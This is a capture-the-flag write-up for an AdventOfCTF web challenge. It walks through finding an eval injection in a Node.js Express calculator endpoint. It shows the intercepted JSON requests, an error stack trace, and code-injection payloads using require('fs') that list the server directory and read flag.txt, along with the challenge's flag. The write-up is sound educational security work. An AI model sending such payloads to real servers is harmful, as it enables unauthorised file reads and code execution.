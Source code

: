 +++
author = "Maik de Kruif"
title = "Evaluations"
subtitle = "Challenge 18 - AdventOfCTF"
date = 2021-01-06T23:04:52+01:00
description = "A writeup for challenge 18 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/be40bcd25e7487440a64b13cd32049b2.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "javascipt",
    "nodejs",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1800

## Description

We created a calculator for Santa to figure out how many days until Christmas remain. It is not finished yet, it will only return what you give it. Sort of. The flag is in flag.txt.

Visit <https://18.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website we're greeted with an input field which asks us to "enter the nr of days until christmas".

When opening the source of the page we also find some javascript code:

```js
function send() {
  let calc = $("#calc")[0].value;
  if (calc.length > 0) {
    $.ajax({
      url: "/calc",
      type: "POST",
      data: '{"calc": "' + calc + '" }',
      contentType: "application/json; charset=utf-8",
      dataType: "json",
    }).always(function (data) {
      text = data;
      if (data.responseText) {
        text = data.responseText;
      }
      $("#msg")[0].innerHTML = "<b>" + text + "</b>";
    });
  }
}
```

As the description tells us it's a calculator, let's try entering `3+4` in the input field. It will make a `POST` request to `/calc`, which will return `7`.

## Finding the vulnerability

If we capture the request with a proxy like Burp, we can see it sends a `POST` request with some JSON data. It looks like this:

```json
{
  "calc": "3+4"
}
```

To find out how the calculator works internally we can try to send some data it doesn't expect to try to break it. An example would be sending an empty post request.

If we try that we get the following error back:

```text
TypeError: Cannot read property 'toString' of undefined
    at /opt/app/server.js:14:13
    at Layer.handle [as handle_request] (/opt/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/app/node_modules/express/lib/router/route.js:137:13)
    at /opt/app/node_modules/body-parser/lib/read.js:130:5
    at invokeCallback (/opt/app/node_modules/raw-body/index.js:224:16)
    at done (/opt/app/node_modules/raw-body/index.js:213:7)
    at IncomingMessage.onEnd (/opt/app/node_modules/raw-body/index.js:273:7)
    at IncomingMessage.emit (events.js:203:15)
    at endReadableNT (_stream_readable.js:1145:12)
    at process._tickCallback (internal/process/next_tick.js:63:19)
```

This hints at a NodeJS Express server, but it does not give us much information about the calculation besides a `toString` which would be unnecessary if the output would always be a number. This could hint at an `eval` vulnerability.

A NodeJS Express server often has a `res` variable to which the request result is written. Let's try to get it by entering it in de input field.

```json
{
  "calc": "res"
}
```

The result is `[object Object]` which means the input is evaluated.

## Exploit

Now we know the input is evaluated, we can try to read the flag. To find the file, let's try to list the directory contents.

In NodeJS we can do this by using the `fs` module and using the `readdirSync()` function. The resulting code would be `require('fs').readdirSync('.')`.

The resulting request:

```json
{
  "calc": "require('fs').readdirSync('.')"
}
```

This gives us the following result:

```text
flag.txt,node_modules,package-lock.json,package.json,public,server.js
```

Now that we know the location of the flag (`flag.txt`), we can use the `readFileSync()` function to read the file:

```json
{
  "calc": "require('fs').readFileSync('flag.txt')"
}
```

## Solution

We got the flag! It is `NOVI{N3v3r_us3_eval}`.
